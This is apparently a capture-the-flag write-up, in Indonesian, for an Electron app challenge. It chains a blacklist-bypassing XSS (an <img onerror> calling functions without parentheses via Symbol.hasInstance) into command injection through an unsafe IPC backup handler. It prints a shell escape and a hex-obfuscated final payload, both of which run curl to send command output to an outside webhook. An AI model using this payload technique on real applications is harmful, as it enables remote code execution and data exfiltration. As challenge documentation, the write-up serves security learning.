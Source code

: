 # Clientside

1. XSS in the app  
    Pada aplikasi, cara developer memasukkan description tidaklah aman, sehingga terdapat kerentanan XSS di dalam aplikasi. Namun terdapat sanitasi yang cukup ketat (sepertinya) pada data ``description``
    sanitasi yang digunakan:
    ```js
    const unnecessaryChar = "abbr acronym address applet area article aside audio base bdi bdo big blink blockquote br button canvas caption center cite code col colgroup command content data datalist dd del details dfn dialog dir div dl dt element em embed fieldset figcaption figure font footer form frame frameset head header hgroup hr html iframe image input kbd keygen label legend li link listing location main map mark marquee menu menuitem meta meter multicol nav nextid nobr noembed noframes noscript object optgroup output param picture plaintext pre progress samp script section select shadow slot small source spacer span strike strong sub . summary sup svg table tbody td template textarea tfoot th thead time tr track tt ul var video replace eval ( ) `".split(" ")
    ```
    dan cukup beruntung bahwa ternyata <img> tidak diblacklist
    ```js
    const escapeRegExp = s => s.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
    for (const c of unnecessaryChar) {
        const pattern = new RegExp(escapeRegExp(c), 'gi');
        description = description.replace(pattern, '');
    }
    ```

Namun kita tetap bisa melakukan pemanggilan fungsi javascript tanpa parantheses dengan format berikut:
```js
args instanceof { [Symbol['hasInstance']]: Object['functionName'] }
```

2. Web prefference settings
    - Node integration: ``False``
    - Context Isolation: ``true``
    artinya kita tidak bisa melakukan pemanggilan nodeJS secara langsung pada browser context meskipun terdapat XSS

3. RCE via Unsafe IPC Handler in main process
    Ada 3 IPC handler di main.ts:
    ```js
    planCached.then(planCache => {
        ipcMain.handle('set-cached-plans', (_, plan: PlanInterface) =>{
            planCache.setCachedPlan(plan);
            mainWindow.webContents.send('plan-updated');
        });
        ipcMain.handle('get-cached-plans', _ => {
            return planCache.getCachedPlans();
        });
        ipcMain.handle('backup-cached-plans', (_, name: string) => {
            return planCache.backupCachedPlan(name);
        });
    });
    ```

    implementasi backupCachedPlan terdapat kerentanan command injection yakni pada PlanCached.ts:
    ```js
    backupCachedPlan(name: string){
        let command = '';
        switch (process.platform){
            case 'win32':
                command=`powershell -Command "Compress-Archive -Path ${this.path} -DestinationPath ${name}.zip"`;
                exec(command);
                break;
            case 'darwin':
                command=`zip -r ${this.path} ${name}.zip`;
                exec(command);
                break;
            case 'linux':
                command=`zip ${name}.zip ${this.path}`;
                exec(command);
                break;
            default:
                break;
        }
    }
    ```
    Sehingga memungkikan kita untuk menyusupi payload didalamnya dengan pemanggilan window.api.backupCachedPlan, namun karena . diblacklist, kita bisa ganti dengan menggunakan [] (``window['api']['backupCachedPlan']``) dan pemanggilan argumen menggunakan teknik sebelumnya.

    kita bisa escape hanya dengan menggunakan:
    ```sh
    gedagedi; curl http://webhook/?c=$(./readflag)
    ```

    Sehingga payload akhir yang bisa digunakan untuk mendapatkan flag adalah:
    ```js
    <img src=x onerror="'\x62\x61\x64\x2e\x7a\x69\x70\x20\x61\x3b\x20\x63\x75\x72\x6c\x20\x68\x74\x74\x70\x73\x3a\x2f\x2f\x77\x65\x62\x68\x6f\x6f\x6b\x2e\x73\x69\x74\x65\x2f\x32\x65\x35\x62\x30\x33\x62\x66\x2d\x37\x38\x62\x62\x2d\x34\x33\x35\x34\x2d\x39\x66\x66\x38\x2d\x36\x65\x66\x37\x61\x33\x30\x62\x30\x32\x37\x62\x3f\x63\x3d\x24\x28\x2f\x72\x65\x61\x64\x66\x6c\x61\x67\x29\x20\x23' instanceof { [Symbol['hasInstance']]: window['api']['backupCachedPlan'] }">
    ```

# Ref
- [Invoke JS function without Parantheses](https://stackoverflow.com/questions/35949554/invoking-a-function-without-parentheses)

